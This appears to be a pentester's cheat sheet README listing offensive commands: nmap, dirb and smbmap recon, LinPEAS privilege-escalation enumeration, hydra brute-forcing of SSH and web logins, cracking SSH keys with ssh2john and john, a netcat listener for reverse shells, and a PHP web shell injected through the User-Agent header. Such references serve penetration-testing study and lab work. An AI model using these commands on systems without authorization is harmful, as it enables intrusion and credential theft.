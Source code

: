 # Pentester's Cheat Sheet
Quick reference guide to all things pentest.



## Recon
### Nmap
Let's look for those open ports and export the output to a specified directory using `nmap`.
```
nmap -sV -sC -vv -oN ./scan [ip_address]
```
### Dirb
DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the responses. DIRB’s main purpose is to help in professional web application auditing. 
```
dirb http://[ip or domain name]/[optional directories] [path_to_wordlist]
```

### SMBMap
SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands. This tool was designed with pen testing in mind, and is intended to simplify searching for potentially sensitive data across large networks.
```
smbmap -H [ip_address]
```
If an error is returned, try the `-u` switch and declare a username.
```
smbmap -H [ip_address] -u test
```



## Enumeration
### Linpeas
LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.
```
# 1. Copy over the LinPEAS script over OpenSSH using ~scp~ 
$ scp [LinPEAS_file_path] [user]@[ip_address]:[file_path] <-- Psst! /dev/shm is a great place

# 2. Change directory to ensure file transfer was successful and set file as executable 
$ chmod +x [file_name].sh

# 3. Now its time to let LinPEAS work its magic and find some escalation vectors. Run the following:
$ ./linpeas.sh | tee linlog.txt

For more information, check out LinPEAS Github: https://github.com/carlospolop/PEASS-ng/
```



## Cracking
### Hydra
Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

#### Hydra ssh
```
hydra -l [username] -P [wordlist] [ip_address] ssh
```

#### Hydra http-post-form
```
hydra -l [username] -P [path_to_wordlist] [target_ip] http-post-form "/[directory]:[user_param]=^USER^&[password_param]=^PASS^:[error_message]"
```

### John
John the Ripper is a tool designed to help systems administrators to find weak (easy to guess or crack through brute force) passwords, and even automatically mail users warning them about it, if it is desired.

Run private SSH key against ssh2john to produce a new hash file. Next, crack the hash using specified wordlist. This should provid 
a password for password protected private keys. 
#### ssh2john
```
ssh2john [key_id_rsa] > forjohn.txt
john forjohn.txt --wordlist=[path to wordlist]
```



## Exploits
Exploit Database Archive Search After locating the exploit, copy it into the current directory.
```
searchsploit -m [exploit_file_path]
```



## Basic Linux Commands

- List directory, show hidden, and permissions files
```
ls -la
```

- Change Permissions for a file or directory:
```
chmod ### [file] or [directory]
```

- Another way of changing permissions over a directory is:
```
chown [user_name] [dir]
```

- Find files with SUID bit set:
```
find / -perm /4000
```
> Or (if using is in sudoers file).
```
sudo -l
```
- Open and listen on a port using `nc`. Now you're ready to execute that reverse shell.
```
nc -lvp [port_number]
```


## Random Tips & Tricks
### RSA Keys
RSA Keys only like to be read by authenticated users. Be sure to change permissions to:
```
chmod 600 [RSA_Key_file_name]
```

### User Agents
Somestimes PHP can be passed in through request headers, specifically the User-Agent. If successful we can pass in an ecoded web shell one-liner via the `c` parameter. 
```
curl [ip or domain name] -H "User-Agent:<?php system(\$_GET['c']); ?>"
```

### Interactive Shell
Maybe you need to switch users, maybe you prefer BASH - either way you need to spawn an interactive shell. Also, `echo $0` will inform you of which shell you're currently using. 
```
python -c "import pty;pty.spawn('/bin/bash')"
```
